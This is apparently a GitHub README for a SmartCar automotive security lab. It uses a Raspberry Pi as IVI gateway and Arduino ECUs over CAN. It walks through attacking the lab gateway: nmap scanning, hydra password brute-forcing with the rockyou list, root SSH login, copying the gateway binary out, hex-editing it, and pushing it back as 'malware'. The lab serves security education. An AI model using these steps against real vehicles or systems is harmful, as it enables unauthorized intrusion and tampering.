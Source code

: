 # SmartCar
## Project goal
Implementation of Smart-Car CAN protocol & Utility data for IVI(In-Vehicle Infotainment) gateway attack using vulnerable port.

## Practice Equipments
- **RPi**: IVI Gateway 역할, 자동차 외부 네트워크의 Gateway
- **Arduino**: ECU 제어 역할, 자동차 내부 시스템의 ECU 제어
- **CAN shield**: RPi ↔ Arduino간 CAN 프로토콜 통신 가능
- **Sensors**: Motor, Text LCD, LCD Monitor
- **Android**: Android 앱, SmartCar 조종 인터페이스 제공
- **SmartCar.pdf**: SmartCar 실습 방법 문서

## Architecture
![architecture](https://user-images.githubusercontent.com/20378368/105503161-9c1a7300-5d09-11eb-871d-fbd33bc41c54.PNG)

## Let's Hack an IVI-Gateway 🐱‍💻
![attack](https://user-images.githubusercontent.com/20378368/105503603-24991380-5d0a-11eb-8a7a-1387fc79391d.png)
### Exploit Target Binary
- **Step 1**: IVI Gateway Log 분석  
![step1](https://user-images.githubusercontent.com/20378368/105573332-1c8bb300-5da0-11eb-9b70-fdc469eea789.PNG)
```
- Android App ↔ IVI Gateway 통신 과정에서의 Log 분석
```
- **Step 2**: TCP Port Scanning
```
- Kali Linux 설치
- 설치 방법: https://hack-cracker.tistory.com/78
```
- **Step 3**: Password Cracking
```
- Android App ↔ IVI Gateway 통신 과정에서의 Port 분석
- nmap <IVI Gateway IP> -sS -sV -p <Port Number>
- ping <IVI Gateway IP> -c 5
- gzip -d /usr/share/wordlists/rockyou.txt.gz
- hydra -l <ID> -P <PW Dictionary File Path> -V -f -o <Output Path> <Service://IP:Port>
```
- **Step 4**: root 권한으로 SSH 원격 접속
```
- ssh -l <ID> -p <Port> <IVI Gateway IP>
- Step 3에서 찾아낸 root password로 접속
```
- **Step 5**: IVI Gateway의 네트워크 상태 확인
```
- netstat -tnlp
- file /proc/<PID 번호>/exe
```
- **Step 6**: SSH를 이용한 IVI Gateway 바이너리 취득
```
- scp root@<IVI Gateway IP>:<iviGateway 파일 경로> <Kali Linux에 저장될 경로>
```

### Malware Injection 🐱‍💻
- **Step 1**: Hex Editor를 이용한 바이너리 수정  
![step2](https://user-images.githubusercontent.com/20378368/105573522-8ce70400-5da1-11eb-9e8d-0f6ef08e5c32.PNG)
```
- 명령어 부분에 의미 없는 값으로 변조 → 해당 기능 동작 X
- 명령어 부분에 다른 명령어 값으로 변조 → 해당 기능 대신 다른 기능 실행됨
```
- **Step 2**: SSH를 이용한 Malware Injection
```
- scp <Kali Linux에 저장된 경로> root@<IVI Gateway IP>:<iviGateway 파일 경로>
```
- **Step 3**: IVI Gateway 다시 시작
```
- ssh root@<IVI Gateway IP>
- init 6
```
